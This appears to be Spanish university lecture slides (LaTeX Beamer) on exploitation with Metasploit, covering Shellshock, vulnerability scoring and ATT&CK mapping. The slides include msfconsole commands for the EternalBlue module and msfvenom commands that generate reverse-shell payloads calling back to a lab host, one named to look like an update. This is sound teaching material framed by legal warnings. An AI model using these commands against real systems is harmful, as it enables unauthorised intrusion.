\documentclass[aspectratio=169,11pt]{beamer}
\usepackage{beamertemplate}
\usepackage{graphicx}
\usepackage{url}
\usepackage{textcomp}
\usepackage{eurosym}
\usepackage[normalem]{ulem}
\usepackage{ragged2e}
\usepackage{etoolbox}
\apptocmd{\itemize}{\justifying}{}{}
\AtBeginEnvironment{frame}{\justifying}
% Margen de elasticidad para que las URL largas no se salgan del cuadro de texto
\setlength{\emergencystretch}{3em}

% --- Comandos de shell legibles -------------------------------------
% En T1, la fuente monoespaciada convierte >> y << en guillemets (» «), lo que
% rompe las redirecciones de shell. microtype desactiva esas ligaduras.
\usepackage{microtype}
\DisableLigatures{encoding = T1, family = tt*}
% babel-spanish activa " como atajo y rompe los literales con comillas dobles.
\AtBeginDocument{\shorthandoff{"}}

% Comandos, rutas y literales: monoespaciado en color de la plantilla
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
% Encabezado de apartado dentro de una transparencia
\newcommand{\lead}[1]{{\color{uznavy}\bfseries #1}\par\smallskip}
\newcommand{\term}[1]{\emph{#1}}
% Nota de fuente o referencia al pie de una transparencia
\newcommand{\fuente}[1]{\par\vspace{0.25em}{\scriptsize\color{uzsteel}\raggedright #1\par}}
% Bloque destacado para líneas de comando completas
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.92\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}

% Repite el índice al empezar cada sección, resaltando la que comienza
\setbeamertemplate{section in toc shaded}[default][30]
\AtBeginSection[]{%
  \begin{frame}{Índice}
  \footnotesize
  \tableofcontents[currentsection]
  \end{frame}
}

\title[SSI -- Tema 3.3]{Hacking con Metasploit}
\subtitle{Seguridad en Sistemas Informáticos --- Tema 3.3}
\author{José Luis Martínez}
\institute{Universidad de Castilla-La Mancha}
\date{Curso 2026/27}

% --- build reproducible / metadatos limpios ---
\pdfinfoomitdate=1
\pdftrailerid{}
\pdfsuppressptexinfo=-1

\begin{document}

\begin{frame}[plain]\titlepage\end{frame}

\section{Introducción}

\begin{frame}{Dónde encaja la explotación en un ataque}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/taxonomia-ataque.pdf}
\end{center}
\end{frame}

\begin{frame}{Laboratorio: máquinas necesarias para el tema}
\small
  \begin{itemize}
  \item Metasploitable2
  \item Win7 o bien \href{https://pruebasaluuclm-my.sharepoint.com/personal/joseluis_martinez_uclm_es/_layouts/15/onedrive.aspx?id=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs\%2FWinXP\%5FSP3\%2Eova&parent=\%2Fpersonal\%2Fjoseluis\%5Fmartinez\%5Fuclm\%5Fes\%2FDocuments\%2FVMs&originalPath=aHR0cHM6Ly9wcnVlYmFzYWx1dWNsbS1teS5zaGFyZXBvaW50LmNvbS86dTovZy9wZXJzb25hbC9qb3NlbHVpc19tYXJ0aW5lel91Y2xtX2VzL0VacTdldHhHUEc5SXZuU1QyMkc5anZzQlg4aV82bU95SVpiVkVaNzNsTWN2eXc\%5FcnRpbWU9bzkzeWNrY2oyVWc}{WinXP} (no es imprescindible)
  \item \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/Eb8U38L5EZVJmgHx_9jDirkBbdgl_WJ938VZniuBY8e00A?e=ufkKh9}{Win7x64}
  \item \href{https://mega.nz/file/RG0whSrR\#dhO_VHaG-BK8A6NcVwiAhYWxZiStdYj9yT3DFWGiVEQ}{Eclipse}
  \item \href{https://www.vulnhub.com/entry/dina-101,200/}{Dina}
  \item \href{https://dise0.gitbook.io/h4cker_b00k/ctf/dockerlabs/ejotapete-dockerlabs-very-easy}{Ejotapete}
  \item \href{https://www.vulnhub.com/entry/pentester-lab-s2-052,206/}{PentesterLab}
  \item \href{https://hub.docker.com/r/jas9reet/heartbleed}{Heartbleed}
  \item \href{https://pruebasaluuclm-my.sharepoint.com/:u:/g/personal/joseluis_martinez_uclm_es/ERnYFnatJgVHg15jZvHAMnUBkQauLubaTU5-BdzC4OdGxw?e=D1867Q}{Log4Shell}
  \item \href{https://www.vulnhub.com/entry/kioptrix-level-1-1,22/}{Kioptrix}
  \item \href{https://echoctf.red/target/13}{Flanders}
  \end{itemize}
\fuente{Todas se levantan en la red aislada del laboratorio montado en el \textbf{Tema 1.3}. Ninguna debe tener el adaptador en modo puente.}
\end{frame}

\begin{frame}{Antes de lanzar un solo exploit: el marco legal}
\footnotesize
\lead{Regla de oro}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item Todas las técnicas de este tema se practican \textbf{exclusivamente} sobre las máquinas vulnerables del laboratorio, en una red aislada y sobre sistemas propios o expresamente autorizados.
  \item Lanzar un exploit contra un sistema ajeno sin autorización escrita es un delito, aunque no se cause daño y aunque el fallo sea público y conocido.
  \item En España, entre otros, el Código Penal recoge:
    \begin{itemize}
    \item Art. 197 bis: acceso ilícito a sistemas de información (basta con acceder, sin necesidad de dañar).
    \item Art. 264 y ss.: daños informáticos e interferencia en el funcionamiento de sistemas (aquí entran los DoS que veremos).
    \item Art. 400: fabricación o tenencia de programas destinados a cometer los delitos anteriores.
    \end{itemize}
  \item Un ejercicio profesional de pentesting requiere unas \emph{Rules of Engagement}: alcance, ventana temporal, sistemas excluidos, contacto de emergencia y tratamiento de los datos obtenidos.
  \item Especial cuidado con los módulos de DoS: pueden dejar el objetivo inservible. Nunca fuera del laboratorio.
  \end{itemize}
\fuente{\href{https://www.boe.es/buscar/act.php?id=BOE-A-1995-25444}{Código Penal (BOE)} \textbar{}
        \href{https://www.boe.es/biblioteca_juridica/codigos/codigo.php?id=033_Codigo_de_Derecho_de_la_Ciberseguridad}{Código de Derecho de la Ciberseguridad}}
\end{frame}

\begin{frame}{¿Por qué es vulnerable un sistema?}
\small
  \begin{itemize}\setlength{\itemsep}{0.5em}
  \item En términos generales, en los sistemas informáticos hay dos causas principales por las que los sistemas son vulnerables: la mala configuración del software o del hardware y las malas prácticas de programación.
  \item La investigación de vulnerabilidades es el proceso de descubrimiento de errores de programación y/o fallos de diseño en un sistema operativo o en sus aplicaciones que permitirán a un atacante comprometer el sistema o las aplicaciones, o hacer que estos no se comporten tal y como fueron diseñados.
  \item Conviene distinguir tres conceptos que se confunden a menudo:
    \begin{itemize}\setlength{\itemsep}{0.25em}
    \item \textbf{Vulnerabilidad}: el fallo en sí (p.\,ej.\ CVE-2014-6271).
    \item \textbf{Exploit}: el código que aprovecha ese fallo.
    \item \textbf{Payload}: lo que se ejecuta en el objetivo una vez el exploit ha tenido éxito.
    \end{itemize}
  \item Un exploit sin payload solo demuestra el fallo; un payload sin exploit no tiene forma de llegar al objetivo.
  \end{itemize}
\end{frame}

\begin{frame}{Categorías de vulnerabilidades (I)}
\small
  \begin{itemize}
  \item Las vulnerabilidades presentes en un sistema o red se clasifican en las siguientes categorías:
    \begin{itemize}\setlength{\itemsep}{0.35em}
    \item Configuración errónea
      \begin{itemize}
      \item Sistemas externos no autenticados o autenticados de manera incorrecta.
      \item La ejecución de servicios innecesarios en una máquina.
      \end{itemize}
    \item Instalaciones predeterminadas
      \begin{itemize}
      \item Desactivación de la configuración y las características de seguridad.
      \item Contraseñas predeterminadas o por defecto.
      \end{itemize}
    \item Desbordamientos de búfer (\emph{buffer overflow})
      \begin{itemize}
      \item Mala programación (uso de funciones vulnerables) o mala gestión de las entradas del usuario.
      \end{itemize}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Categorías de vulnerabilidades (II)}
\small
  \begin{itemize}
  \item \dots y también:
    \begin{itemize}\setlength{\itemsep}{0.35em}
    \item Servidores sin parchear o actualizar
      \begin{itemize}
      \item Descuido o dejadez.
      \item Defectos de diseño.
      \end{itemize}
    \item Uso de cifrados obsoletos.
    \item Fallos lógicos en la aplicación.
    \item Fallos del sistema operativo.
    \item Dependencias de terceros heredadas sin control: la mayor parte del código de una aplicación moderna no lo ha escrito quien la publica (Log4Shell es el ejemplo de manual).
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Chuletario de enumeración}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl011_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Del reconocimiento a la vulnerabilidad: un caso}
\small
  \begin{itemize}
  \item Se parte de un escenario en el que, después de una fase de recopilación de información, se obtiene, entre otra información sensible, el rango de IP de una organización objetivo.
  \item A partir de dicho rango, se realiza un escaneo de IP y se determinan varias IP activas. Para una de ellas se realiza un escaneo de puertos y se determina que tiene corriendo en el puerto 80 un CGI que permite la interacción.
  \item Haciendo una consulta a la base de datos CVE, se puede determinar que hay varias vulnerabilidades asociadas a dicho producto software.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.46\textheight,keepaspectratio]{img/sl012_1.png}
\end{center}
\end{frame}

\begin{frame}{Consultar la vulnerabilidad: CVE y CVSS}
\small
  \begin{itemize}
  \item Como se puede apreciar, existe una vulnerabilidad ya reportada, en concreto la CVE-2014-6271. Además, se puede encontrar la descripción del fallo, por ejemplo en \href{https://seclists.org/oss-sec/2014/q3/649}{oss-sec}.
  \item Este fallo permite a usuarios remotos la ejecución de comandos.
  \item Si se busca dicha vulnerabilidad en la base de datos \href{https://nvd.nist.gov/vuln/detail/CVE-2014-6271}{NVD}, se aprecia que tiene una puntuación CVSS v3.1 de \textbf{9.8 (crítica)} --- y 10.0 en la escala CVSS v2.
  \end{itemize}
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.52\textheight,keepaspectratio]{img/sl013_1.png}
\end{center}
\end{frame}

\begin{frame}{Buscar exploits públicos para el CVE}
\small
  \begin{itemize}
  \item Se pueden encontrar múltiples exploits para explotar la vulnerabilidad:
  \end{itemize}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.72\textheight,keepaspectratio]{img/sl014_1.png}
\end{center}
\end{frame}

\begin{frame}{Anatomía de un exploit (I): el escenario}
\small
  \begin{itemize}
  \item Siguiendo la misma filosofía del ejemplo anterior, en la fase de reconocimiento un auditor encuentra una IP activa y detecta que el sistema que hay detrás es vulnerable a Shellshock (CVE-2014-6271).
  \item Un posible exploit podría ser el siguiente.
  \end{itemize}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.58\textheight,keepaspectratio]{img/sl016_1.png}
\end{center}
\end{frame}

\begin{frame}{Anatomía de un exploit (II): el código completo}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl016_2.png}
\end{center}
\end{frame}

\begin{frame}{Anatomía de un exploit (III): librerías y conexión}
\small
  \begin{itemize}\setlength{\itemsep}{0.5em}
  \item En primer lugar se importan las librerías necesarias para el funcionamiento del exploit: las que permiten abrir un socket, paralelizar la ejecución de cada conexión en un hilo diferente (\cmd{thread}), y las de tiempo (\cmd{time}), tratamiento de datos HTTP (\cmd{httplib}), URL (\cmd{urllib}) y llamadas al sistema (\cmd{sys}).
  \item A continuación se crea la función \cmd{exploit}, que lo primero que hace es abrir una conexión HTTP con \cmd{HTTPConnection}, realizar una petición GET al servidor web vulnerable y esperar la respuesta con \cmd{getresponse()}.
  \end{itemize}
\fuente{Nota: \cmd{httplib} y \cmd{urllib} son de Python 2. En Python 3 equivalen a \cmd{http.client} y \cmd{urllib.request}; muchos exploits antiguos de Exploit-DB no funcionan sin adaptarlos.}
\end{frame}

\begin{frame}{Anatomía de un exploit (IV): payload y bucle}
\small
  \begin{itemize}
  \item Se crea un payload de tipo \emph{bind}; es decir, se crea una shell con el comando \cmd{/bin/bash} y con una tubería se asocia al servicio \cmd{netcat}, que estará escuchando en el puerto \cmd{port}. La shell estará en ese puerto esperando a que el atacante contacte con ella. En la sección siguiente veremos más tipos de shell.
  \item A continuación se muestran las URL vulnerables descritas en la variable \cmd{pages}.
  \item Después se crea el socket donde ir a buscar la shell que está esperando al atacante en el puerto \cmd{port}; para ello es necesario abrir una conexión con la librería \cmd{socket}. Además, se abre en un hilo nuevo para poder continuar con el hilo principal (\cmd{thread}). Como se puede apreciar, se construye el exploit y se invoca la función \cmd{exploit()} descrita anteriormente.
  \item Por último, el bucle \cmd{while} lanza de manera continuada el exploit hasta que este explota la vulnerabilidad.
  \end{itemize}
\end{frame}

\begin{frame}{Ejecución del exploit manual}
\small
  \begin{itemize}
  \item Para explotar esta vulnerabilidad únicamente habría que lanzar este exploit contra un servidor vulnerable, por ejemplo:
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.66\textheight,keepaspectratio]{img/sl019_1.png}
\end{center}
\end{frame}

\begin{frame}{Del exploit artesanal al framework}
\small
  \begin{itemize}\setlength{\itemsep}{0.5em}
  \item Este es un ejemplo de un exploit que aprovecha una vulnerabilidad. Requiere la destreza de un auditor de seguridad para comprender el fallo, ser capaz de crear un programa o script que lo explote y, una vez explotado, introducir el payload requerido.
  \item Para facilitar esa labor tenemos el framework Metasploit, que abstrae al auditor de crear los exploits y lanzarlos, y permite automatizar buena parte del trabajo de pentesting. En la sección siguiente se verá el potencial de este framework para la explotación de vulnerabilidades.
  \item La diferencia práctica: el exploit anterior sirve para \emph{una} vulnerabilidad, con \emph{un} payload fijo y sin gestión de sesiones. Metasploit separa esas tres piezas y las hace intercambiables.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: room \emph{vulnerabilities101}}
\small
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl021_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve esta room de TryHackMe sobre vulnerabilidades: \href{https://tryhackme.com/room/vulnerabilities101}{vulnerabilities101}.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Escáneres de vulnerabilidades}
\small
  \begin{itemize}
  \item Nessus: \href{https://www.tenable.com/downloads/nessus}{tenable.com/downloads/nessus}
  \item OpenVAS / Greenbone: \href{https://www.greenbone.net/}{greenbone.net}
  \item Nikto: \href{https://cirt.net/}{cirt.net}
  \item Microsoft Defender Vulnerability Management: \href{https://learn.microsoft.com/en-us/defender-vulnerability-management/}{learn.microsoft.com} --- sustituye al antiguo MBSA, ya descatalogado.
  \item Acunetix Web Vulnerability Scanner: \href{https://www.acunetix.com/}{acunetix.com}
  \item Nexpose / InsightVM: \href{https://www.rapid7.com/}{rapid7.com}
  \item Nuclei: \href{https://github.com/projectdiscovery/nuclei}{github.com/projectdiscovery/nuclei} --- escáner basado en plantillas YAML de la comunidad.
  \item SAINT: \href{https://www.carson-saint.com/products/saint-security-suite-legacy/vulnerability-management/}{carson-saint.com}
  \end{itemize}
  \begin{itemize}
  \item En este tema nos centraremos en buscar, identificar y explotar vulnerabilidades de manera manual. Los escáneres de vulnerabilidades automatizan este proceso y se usan en entornos reales porque facilitan la labor del auditor, pero desde el punto de vista didáctico es interesante comprender cómo es ese proceso.
  \end{itemize}
  \begin{center}
\includegraphics[width=0.46\textwidth,height=0.42\textheight,keepaspectratio]{img/sl009_1.jpg}
\end{center}
\fuente{Un escáner de vulnerabilidades \emph{detecta}; Metasploit \emph{explota}. Son herramientas complementarias, no equivalentes. Y ambos producen falsos positivos: la confirmación manual sigue siendo parte del trabajo.}
\end{frame}

\begin{frame}{Priorizar: CVSS, EPSS y KEV}
\footnotesize
\lead{Tres métricas complementarias}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \textbf{\href{https://www.first.org/cvss/}{CVSS}} --- mide la \emph{gravedad técnica} de 0 a 10 (vector de acceso, complejidad, impacto en confidencialidad/integridad/disponibilidad). Es lo que aparece en NVD y en CVE Details.
    \begin{itemize}
    \item Problema: no dice nada sobre si alguien la está explotando de verdad.
    \end{itemize}
  \item \textbf{\href{https://www.first.org/epss/}{EPSS}} --- \emph{Exploit Prediction Scoring System}: probabilidad (0--1) de que una vulnerabilidad sea explotada en los próximos 30 días.
  \item \textbf{\href{https://www.cisa.gov/known-exploited-vulnerabilities-catalog}{KEV} de CISA} --- catálogo de vulnerabilidades con explotación \emph{confirmada} en el mundo real. Si un CVE está en KEV, se parchea ya.
  \end{itemize}
\lead{Ejemplo}
  \begin{itemize}
  \item Shellshock (\href{https://nvd.nist.gov/vuln/detail/CVE-2014-6271}{CVE-2014-6271}): CVSS v3.1 = 9.8 (crítica), CVSS v2 = 10.0, y está en KEV. Prioridad máxima.
  \end{itemize}
\fuente{Regla práctica: CVSS alto + EPSS alto + presencia en KEV = parchear de inmediato. CVSS alto y EPSS bajo puede esperar a la ventana de mantenimiento. Solo un porcentaje pequeño de los CVE publicados llega a explotarse alguna vez.}
\end{frame}

\begin{frame}{MITRE ATT\&CK: mapear lo que hacemos}
\footnotesize
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \href{https://attack.mitre.org/}{MITRE ATT\&CK} es una matriz que recoge las técnicas conocidas para todas las fases de una intrusión, con detecciones y mitigaciones asociadas.
  \item Las técnicas que cubre este tema:
    \begin{itemize}
    \item \href{https://attack.mitre.org/tactics/TA0001/}{TA0001 --- Initial Access}: cómo entra el atacante.
      \begin{itemize}
      \item \href{https://attack.mitre.org/techniques/T1190/}{T1190 --- Exploit Public-Facing Application}: explotar un servicio expuesto (vsftpd, Tomcat, Struts, Log4Shell\dots).
      \end{itemize}
    \item \href{https://attack.mitre.org/tactics/TA0002/}{TA0002 --- Execution}.
      \begin{itemize}
      \item \href{https://attack.mitre.org/techniques/T1203/}{T1203 --- Exploitation for Client Execution}.
      \end{itemize}
    \item \href{https://attack.mitre.org/techniques/T1210/}{T1210 --- Exploitation of Remote Services}: EternalBlue, BlueKeep, Zerologon (movimiento lateral dentro de la red).
    \end{itemize}
  \item El propio Metasploit está catalogado como software adversario: \href{https://attack.mitre.org/software/S0002/}{S0002}.
  \item Utilidad para el Blue Team: cada técnica trae su lista de fuentes de datos y detecciones, de modo que un ejercicio de Red Team se puede traducir directamente en reglas de detección.
  \end{itemize}
\end{frame}

\section{Metasploit}

\begin{frame}{Qué es Metasploit}
\small
  \begin{itemize}
    \item Metasploit es un proyecto de código abierto, hoy mantenido por Rapid7, con una edición Community gratuita y otra Pro comercial.
    \item Metasploit es un framework de explotación, no un escáner de vulnerabilidades. Entre sus ventajas están su facilidad de uso ---abstrae al usuario de la ejecución del exploit, que únicamente hay que configurar--- y su coste.
    \item Su valor real no es tener exploits, sino \textbf{normalizarlos}: todos los módulos se configuran igual, aceptan los mismos payloads y devuelven sesiones gestionables de la misma forma.
  \end{itemize}
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.4\textheight,keepaspectratio]{img/sl023_1.jpg}
\end{center}
\fuente{Documentación oficial: \href{https://docs.metasploit.com/}{docs.metasploit.com} \textbar{}
        Curso gratuito: \href{https://www.offsec.com/metasploit-unleashed/}{Metasploit Unleashed} (OffSec) \textbar{}
        Código: \href{https://github.com/rapid7/metasploit-framework}{github.com/rapid7/metasploit-framework}}
\end{frame}

\begin{frame}{Arquitectura: librerías, interfaces y módulos}
\small
  \begin{itemize}
  \item La arquitectura de Metasploit se organiza en librerías que se apoyan en las interfaces y los módulos para su funcionamiento.
  \item El módulo de \textbf{exploits} tiene cargados todos los exploits (escritos en Ruby) y permite lanzar los ataques contra un objetivo.
  \item El módulo de \textbf{payloads} permite seleccionar el código que se va a ejecutar en la máquina remota cuando se lance el exploit. Hay muchos y muy variados, pero el payload de tipo \emph{meterpreter} es el más significativo.
  \item Los módulos de \textbf{encoders} y \textbf{NOPs} buscan que los payloads no sean detectados por los antivirus, IDS y cortafuegos de la máquina o de la red que atraviesa el exploit.
  \item El módulo \textbf{auxiliary} contiene una serie de herramientas útiles durante un test de intrusión: por ejemplo, comprobar si un objetivo es vulnerable a un cierto exploit, levantar un servicio DHCP o HTTP, un barrido de puertos, un ataque ARP spoofing, etc.
  \item Los módulos \textbf{post} se ejecutan sobre una sesión ya abierta, y los \textbf{evasion} generan artefactos pensados para eludir defensas de endpoint.
  \end{itemize}
\end{frame}

\begin{frame}{Estructura interna del framework}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl025_1.jpg}
\end{center}
\end{frame}

\begin{frame}{Cargar y configurar un módulo}
\small
  \begin{itemize}
  \item Para cargar un módulo simplemente se emplea el comando \cmd{use} seguido de la ruta del módulo. Para ver qué atributos tiene cada módulo, una vez cargado, se ejecuta \cmd{show options}:
  \end{itemize}
\cmdbox{msf6 > use exploit/windows/smb/ms17\_010\_eternalblue\\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) > show options\\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set RHOSTS 192.168.1.10\\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) > exploit}
  \begin{itemize}
  \item Ojo: las rutas de los módulos van \textbf{siempre en minúsculas}.
  \item \cmd{show options} solo muestra las opciones básicas; \cmd{show advanced} revela las que suelen hacer falta cuando el exploit «no funciona».
  \item \cmd{check} comprueba si el objetivo es vulnerable sin llegar a explotarlo. No todos los módulos lo implementan, pero cuando existe evita ruido innecesario.
  \end{itemize}
\end{frame}

\begin{frame}{Payloads: \emph{reverse} frente a \emph{bind}}
\small
  \begin{itemize}
  \item Una vez cargado el módulo se puede averiguar qué payload soporta ---en caso de soportarlo, ya que por ejemplo un módulo auxiliar no suele llevar payload asociado, mientras que en uno de tipo exploit lo más normal es que sí---.
  \item La mayoría de los payloads ejecutan una shellcode que abre una sesión en la máquina comprometida. Las diferentes shells dependen del protocolo que las encapsula, desde TCP hasta HTTP; también varían si son de tipo \emph{reverse}, en las que la propia máquina comprometida lanza la sesión hacia la máquina atacante.
  \item Las shells \emph{reverse} son las más efectivas, ya que normalmente las medidas de filtrado del cortafuegos en sentido saliente son más permisivas que las entrantes.
  \item Otro tipo son las \emph{bind}, en las que el atacante tiene que ir a buscar la shell a la máquina comprometida.
  \item Distinción importante: un payload \emph{staged} (\cmd{windows/meterpreter/reverse\_tcp}, con barras) envía primero un cargador mínimo y después el resto; uno \emph{stageless} (\cmd{windows/meterpreter\_reverse\_tcp}, con guion bajo) va completo. El primero es más pequeño y cabe en más exploits; el segundo aguanta mejor las redes inestables.
  \end{itemize}
\end{frame}

\begin{frame}{Atributos de exploits, auxiliary y payloads}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl029_1.png}
\end{center}
\end{frame}

\begin{frame}{Comandos de msfconsole}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl030_1.png}
\end{center}
\end{frame}

\begin{frame}{msfvenom: generar el payload por separado}
\footnotesize
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item Hasta ahora el payload viajaba dentro del exploit. Pero a veces no hay exploit: hay que \emph{entregar} un binario a la víctima por otra vía (ingeniería social, un recurso compartido, una subida de fichero en una web).
  \item Para eso está \href{https://www.offsec.com/metasploit-unleashed/msfvenom/}{\cmd{msfvenom}}, que combina generación y codificación de payloads en un ejecutable independiente del framework.
  \end{itemize}
\cmdbox{msfvenom -p windows/x64/meterpreter/reverse\_tcp \textbackslash{}\\
\hphantom{msfvenom }LHOST=10.0.1.6 LPORT=4444 -f exe -o actualizacion.exe}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item La sesión se recoge después con el módulo \cmd{exploit/multi/handler}, configurado con \emph{el mismo} payload, LHOST y LPORT.
  \item \textbf{La generación de payloads con \cmd{msfvenom}, su ofuscación y las técnicas de evasión de antivirus se tratan en detalle en el Tema 3.2 (Ingeniería Social)}, donde el vector de entrega es el propio usuario. Aquí nos quedamos con la idea de que exploit y payload son piezas separables.
  \end{itemize}
\fuente{Ver también: \href{https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html}{Docs de Metasploit --- reverse shells y multi/handler}}
\end{frame}

\begin{frame}{Encoders y NOPs: por qué ya no bastan}
\footnotesize
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item Un \textbf{encoder} reescribe la shellcode para que siga haciendo lo mismo pero con otra secuencia de bytes. El clásico es \cmd{x86/shikata\_ga\_nai}, un codificador polimórfico XOR con clave variable.
  \item Un \textbf{NOP sled} rellena con instrucciones que no hacen nada para dar margen de error al salto al inicio de la shellcode.
  \item El propósito original no era evadir antivirus, sino \textbf{eliminar \emph{bad characters}}: bytes que el programa vulnerable trataría de forma especial y romperían el exploit (típicamente \cmd{\textbackslash{}x00}, \cmd{\textbackslash{}x0a}, \cmd{\textbackslash{}x0d}).
  \end{itemize}
\cmdbox{msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.0.1.6 LPORT=4444 \textbackslash{}\\
\hphantom{msfvenom }-e x86/shikata\_ga\_nai -b "\textbackslash{}x00\textbackslash{}x0a\textbackslash{}x0d" -f c}
  \begin{itemize}
